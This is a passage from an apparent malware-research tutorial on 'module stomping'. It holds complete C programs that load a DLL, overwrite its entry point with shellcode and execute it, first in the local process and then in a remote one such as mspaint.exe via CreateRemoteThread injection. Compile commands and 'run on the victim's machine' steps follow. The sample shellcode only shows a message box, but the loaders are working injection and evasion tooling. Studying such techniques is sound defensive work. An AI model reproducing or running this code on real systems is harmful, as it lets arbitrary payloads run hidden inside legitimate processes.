typedef NTSTATUS(NTAPI* fnNtMapViewOfSection)(
    IN    HANDLE      SectionHandle,
    IN    HANDLE      ProcessHandle,
    IN OUT  PVOID* BaseAddress,
    IN    SIZE_T      ZeroBits,
    IN    SIZE_T      CommitSize,
    IN OUT  PLARGE_INTEGER  SectionOffset    OPTIONAL,
    IN OUT  PSIZE_T      ViewSize,
    IN    SECTION_INHERIT InheritDisposition,
    IN    ULONG      AllocationType,
    IN    ULONG      Protect
    );

typedef NTSTATUS(NTAPI* fnNtCreateThreadEx)(
    PHANDLE                 ThreadHandle,
    ACCESS_MASK             DesiredAccess,
    POBJECT_ATTRIBUTES      ObjectAttributes,
    HANDLE                  ProcessHandle,
    PVOID                   StartRoutine,
    PVOID                   Argument,
    ULONG                   CreateFlags,
    SIZE_T                  ZeroBits,
    SIZE_T                  StackSize,
    SIZE_T                  MaximumStackSize,
    PPS_ATTRIBUTE_LIST      AttributeList
    );

// x64 shellcode (messageBox "Hello world")
unsigned char rawData[] =
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main() {
    NTSTATUS STATUS = 0;
    HANDLE hFile = INVALID_HANDLE_VALUE;
    HANDLE hSection = NULL;
    HANDLE hThread = NULL;
    PVOID uMappedModule = NULL;
    SIZE_T sViewSize = 0;
    ULONG_PTR uEntryPoint = 0;
    DWORD dwOldProtection = 0;

    // 1. resolve NT APIs
    HMODULE hNtdll = GetModuleHandleW(L"NTDLL");
    if (!hNtdll) return -1;

    fnNtCreateSection pNtCreateSection = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
    fnNtMapViewOfSection pNtMapViewOfSection = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    fnNtCreateThreadEx pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

    if (!pNtCreateSection || !pNtMapViewOfSection || !pNtCreateThreadEx) return -1;

    printf("press <Enter> to load DLL...");
    getchar();

    // 2. open victim DLL file
    hFile = CreateFileW(VICTIM_DLL, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("CreateFileW failed: %d\n", GetLastError());
        return -1;
    }

    // 3. create image section
    STATUS = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
    CloseHandle(hFile);
    if (!NT_SUCCESS(STATUS)) {
        printf("NtCreateSection failed: 0x%0.8X\n", STATUS);
        return -1;
    }

    // 4. map view of section
    STATUS = pNtMapViewOfSection(hSection, NtCurrentProcess(), &uMappedModule, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);
    if (!NT_SUCCESS(STATUS)) {
        printf("NtMapViewOfSection failed: 0x%0.8X\n", STATUS);
        CloseHandle(hSection);
        return -1;
    }

    // 5. parse PE Headers for entry point and .text section verification
    PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)((ULONG_PTR)uMappedModule + ((PIMAGE_DOS_HEADER)uMappedModule)->e_lfanew);
    if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE) return -1;

    uEntryPoint = (ULONG_PTR)uMappedModule + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint;

    ULONG_PTR uTextAddress = 0;
    SIZE_T sTextSize = 0;
    PIMAGE_SECTION_HEADER pImgSecHdr = IMAGE_FIRST_SECTION(pImgNtHdrs);

    for (int i = 0; i < pImgNtHdrs->FileHeader.NumberOfSections; i++) {
        if (strncmp((const char*)pImgSecHdr[i].Name, ".text", 5) == 0) {
            uTextAddress = (ULONG_PTR)uMappedModule + pImgSecHdr[i].VirtualAddress;
            sTextSize = pImgSecHdr[i].Misc.VirtualSize;
            break;
        }
    }

    if (!uTextAddress || !sTextSize) {
        printf("could not find .text section\n");
        goto _CLEANUP;
    }

    SIZE_T sTextSizeLeft = sTextSize - (uEntryPoint - uTextAddress);
    printf("victim DLL loaded at: 0x%p\n", uMappedModule);
    printf("entry point address: 0x%p\n", (PVOID)uEntryPoint);
    printf("shellcode size: %zu, available space in .text: %zu\n", sizeof(rawData), sTextSizeLeft);

    if (sTextSizeLeft < sizeof(rawData)) {
        printf("shellcode too large for target section\n");
        goto _CLEANUP;
    }

    // 6. overwrite entry point
    printf("press <Enter> to stomp...");
    getchar();

    if (!VirtualProtect((LPVOID)uEntryPoint, sizeof(rawData), PAGE_READWRITE, &dwOldProtection)) {
        printf("VirtualProtect (RW) failed: %d\n", GetLastError());
        goto _CLEANUP;
    }

    memcpy((PVOID)uEntryPoint, rawData, sizeof(rawData));

    if (!VirtualProtect((LPVOID)uEntryPoint, sizeof(rawData), dwOldProtection, &dwOldProtection)) {
        printf("VirtualProtect (restore) failed: %d\n", GetLastError());
        goto _CLEANUP;
    }

    printf("press <Enter> to execute via NtCreateThreadEx...");
    getchar();

    // 7. execute via NtCreateThreadEx
    STATUS = pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, NtCurrentProcess(), (PVOID)uEntryPoint, NULL, FALSE, 0, 0, 0, NULL);
    if (!NT_SUCCESS(STATUS)) {
        printf("executing NtCreateThreadEx failed: 0x%0.8X\n", STATUS);
        goto _CLEANUP;
    }

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

_CLEANUP:
    if (hSection) CloseHandle(hSection);
    return 0;
}
```

### demo

Let's go to see everything in action.    

Compile it:    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -s -ffunction-sections -fdata-sections -static-libgcc
```

    

Then run it in the victim's machine:    

```powershell
.\hack.exe
```

Run debugger:    

    

    

Load our `combase.dll` DLL:    

    

Address of Entry Point:     

    

Stomping:    

    

    

Our payload successfully "landed" :)    

Execute our thread:    

    

As you can see, everything is worked perfectly, as expected!    

### practical example 2. remote process

Also work for remote module stomping:    

```cpp
/* 
 * hack.c - remote module stomping
 * victim DLL: shell32.dll
 * author: @cocomelonc
 * for DEFCON training exercises on malware research for ethical hackers
 * ANSI / char* version
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

// Get remote DLL load address
DWORD_PTR GetRemoteDllLoadAddress(HANDLE hProcess, const char* dllName) {
   if (hProcess == NULL) {
    printf("invalid process handle error: %d\n", GetLastError());
    return 0;
  }
 
  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE | TH32CS_SNAPMODULE32, GetProcessId(hProcess));
  if (hSnapshot == INVALID_HANDLE_VALUE) {
    printf("CreateToolhelp32Snapshot failed error: %d\n", GetLastError());
    return 0;
  }
 
  // MODULEENTRY32 uses char szModule[] in ANSI mode
  MODULEENTRY32 me32;
  me32.dwSize = sizeof(MODULEENTRY32);
  DWORD_PTR loadAddress = 0;
 
  if (Module32First(hSnapshot, &me32)) {
    do {
      // _stricmp (ANSI case-insensitive compare)
      if (_stricmp(me32.szModule, dllName) == 0) {
        loadAddress = (DWORD_PTR)me32.modBaseAddr;
        break;
      }
    } while (Module32Next(hSnapshot, &me32));
  }
 
  CloseHandle(hSnapshot);
  return loadAddress;
}
 
DWORD_PTR GetRemoteDllEntryPoint(HANDLE hProcess, DWORD_PTR loadAddress) {
  if (hProcess == NULL || loadAddress == 0) {
    printf("invalid process handle or load address error: %d\n", GetLastError());
    return 0;
  }
 
  IMAGE_DOS_HEADER dosHeader;
  SIZE_T bytesRead;
  if (!ReadProcessMemory(hProcess, (LPCVOID)loadAddress, &dosHeader, sizeof(IMAGE_DOS_HEADER), &bytesRead) || bytesRead != sizeof(IMAGE_DOS_HEADER)) {
    printf("ReadProcessMemory failed error: %d\n", GetLastError());
    return 0;
  }
 
  if (dosHeader.e_magic != IMAGE_DOS_SIGNATURE) {
    printf("invalid IMAGE_DOS_SIGNATURE error: %d\n", GetLastError());
    return 0;
  }
 
  IMAGE_NT_HEADERS ntHeaders;
  if (!ReadProcessMemory(hProcess, (LPCVOID)(loadAddress + dosHeader.e_lfanew), &ntHeaders, sizeof(IMAGE_NT_HEADERS), &bytesRead) || bytesRead != sizeof(IMAGE_NT_HEADERS)) {
    printf("ReadProcessMemory IMAGE_NT_HEADERS error: %d\n", GetLastError());
    return 0;
  }
 
  if (ntHeaders.Signature != IMAGE_NT_SIGNATURE) {
    printf("IMAGE_NT_SIGNATURE error: %d\n", GetLastError());
    return 0;
  }
 
  return (DWORD_PTR)(loadAddress + ntHeaders.OptionalHeader.AddressOfEntryPoint);
}

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
 
int main(int argc, char* argv[]) {

  int pid = 0;
  if (argc < 2) {
    printf("Usage: %s <PID>\n", argv[0]);
    return -1;
  }
 
  char sampleDLL[] = "C:\\windows\\system32\\shell32.dll";
  HANDLE process_handle;

  pid = findMyProc(argv[1]);
  
  // get handle to remote process
  process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));
  if (process_handle == NULL) {
    printf("could not open process: %d\n", GetLastError());
    return -1;
  }
 
  // allocate memory for the DLL path string
  LPVOID buffer = VirtualAllocEx(process_handle, NULL, sizeof(sampleDLL), (MEM_RESERVE | MEM_COMMIT), PAGE_READWRITE);
 
  // write DLL path to remote process
  WriteProcessMemory(process_handle, buffer, sampleDLL, sizeof(sampleDLL), NULL);
 
  // explicitly call GetModuleHandleA (ANSI version)
  HMODULE k32_handle = GetModuleHandleA("kernel32.dll");
  VOID* load_library = (VOID*)GetProcAddress(k32_handle, "LoadLibraryA");
 
  // Inject the DLL
  HANDLE remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE)load_library, buffer, 0, NULL);
  if (remote_thread) {
      WaitForSingleObject(remote_thread, INFINITE);
      CloseHandle(remote_thread);
  }

  printf("DLL successfully injected. press <ENTER> to overwrite EntryPoint with shellcode...\n");
  getchar();
 
  const char* dllName = "shell32.dll"; 
  DWORD_PTR dllLoadAddress = GetRemoteDllLoadAddress(process_handle, dllName);
  
  if (dllLoadAddress != 0) {
    printf("Loaded address of DLL: 0x%p\n", (void*)dllLoadAddress);
  } else {
    printf("Failed to find DLL load address\n");
    CloseHandle(process_handle);
    return -1;
  }
 
  DWORD_PTR entryPointAddress = GetRemoteDllEntryPoint(process_handle, dllLoadAddress);
  if (entryPointAddress != 0) {
    printf("address of EntryPoint: 0x%p\n", (void*)entryPointAddress);
  }
  else {
    printf("failed to retrieve EP address\n");
    CloseHandle(process_handle);
    return -1;
  }
 
  // msfvenom shellcode (hello world)
  unsigned char shellcode[] =
    "\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
    "\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
    "\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
    "\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
    "\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
    "\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
    "\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
    "\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
    "\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
    "\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
    "\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
    "\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
    "\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
    "\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
    "\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
    "\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
    "\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
    "\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
    "\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
    "\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
    "\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
    "\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
    "\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
    "\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
    "\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
    "\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
    "\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
    "\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
    "\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3"; 
 
  // overwrite the EntryPoint of the loaded DLL in memory
  WriteProcessMemory(process_handle, (LPVOID)entryPointAddress, (LPCVOID)shellcode, sizeof(shellcode), NULL);
 
  // execute the shellcode by calling the modified EntryPoint
  CreateRemoteThread(process_handle, NULL, 0, (PTHREAD_START_ROUTINE)entryPointAddress, NULL, 0, NULL);
 
  CloseHandle(process_handle);
  printf("successfully executed\n");

  return 0;
}
```

### demo 2

Compile:   

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Run it on victim machine:    

```powershell
.\hack2.exe mspaint.exe
```

    
